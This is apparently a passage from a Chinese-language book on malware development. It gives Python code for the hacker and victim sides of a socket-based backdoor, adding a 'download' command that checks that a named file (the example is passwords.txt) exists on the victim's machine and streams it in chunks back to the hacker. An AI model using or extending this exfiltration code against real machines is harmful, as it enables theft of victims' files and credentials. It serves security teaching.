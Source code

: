图 7.1 – 向黑客发送文件

首先，我们需要将受害者的文件名从黑客发送到受害者。我们已经在*第六章*《恶意软件开发》中学到了如何通过网络发送文本数据，因此这个过程相对直接。在黑客程序中，我们将设计以下策略，发送需要从受害者下载的文件名。如果我们想下载一个名为**passwords.txt**的文件，我们的命令看起来可能是**download passwords.txt**。因此，在黑客程序中，我们将检查黑客命令是否以**download**开头，并为此条件创建一个案例。我们来看一下以下代码。在我们的主循环中，我们检查不同条件的地方，将插入以下检查：

elif command.startswith("download"):

hacker_socket.send(command.encode())

exist = hacker_socket.recv(1024)

第一行检查黑客的命令是否是从受害者那里下载文件。如果是，我们将命令发送给受害者，受害者将回复文件是否存在。根据回复，可以采取进一步的行动。如果文件存在，我们将处理下载文件的情况，否则我们将安全退出程序。现在，让我们稍微停留在黑客程序上，转到受害者程序。在受害者端，我们需要添加一个类似的检查，判断命令是否为**download**。如果是，我们将从接收到的消息中提取文件名，并检查文件是否存在。进入受害者程序，并在主循环中编写以下检查：

elif hacker_command.startswith("download"):

file_to_download = hacker_command.strip("download ")

if os.path.exists(file_to_download):

exists = "yes"

victim_socket.send(exists.encode())

else:

exists = "no"

victim_socket.send(exists.encode())

continue

在这里，我们接收命令并检查命令的类型。一旦收到包含下载字符串的命令，我们可以从命令中剥离出下载部分，以检索我们感兴趣的实际文件名。在前面代码的第三行中，我们检查文件是否存在。如果存在，我们会回复**yes**，否则回复**no**。记住，在黑客程序中，我们在等待接收**exists**变量的这个回复。请注意，我们还没有发送任何文件数据。我们只是创建了外部循环来正确处理数据的发送和接收。文件的读取部分将在前面代码的第一个**if**语句中处理。现在，我们需要读取文件。

接下来，让我们看看下面的代码，它从受害者的机器读取文件并将其发送回黑客：

with open(file_to_download, "rb") as file:

chunk = file.read(CHUNK_SIZE)

while len(chunk) > 0:

victim_socket.send(chunk)

chunk = file.read(CHUNK_SIZE)

# 这将一直运行直到文件结束。

# 一旦文件传输完成，我们需要发送标识符。                            victim_socket.send(eof_identifier.encode())

print("文件成功发送")

让我们来分析一下刚才看到的代码。文件行是一个命令，用于以二进制格式打开并读取文件。尽管它是一个文本文件，但如果你想通过网络传输文件，读取二进制格式的文件是个好主意，因为在实际情况下，文件类型可能是任何格式。接着，我们读取一块字节，并且在文件顶部定义了**CHUNK_SIZE = 2048**。在读取第一块字节后，我们检查文件是否还有更多字节。如果有，我们就通过使用**while**循环迭代地将其发送到网络，直到读取到文件的末尾。这个循环将在没有更多字节可读时停止。一旦我们将完整的文件通过网络发送到黑客那里，我们需要发送标识符，以便黑客知道他们可以停止继续读取。为此，我们发送**eof_identifier**，其值为**eof_identifier = "<END_OF_FILE_IDENTIFIER>"**。黑客将使用这个标识符来确认接收到的数据已经完整。
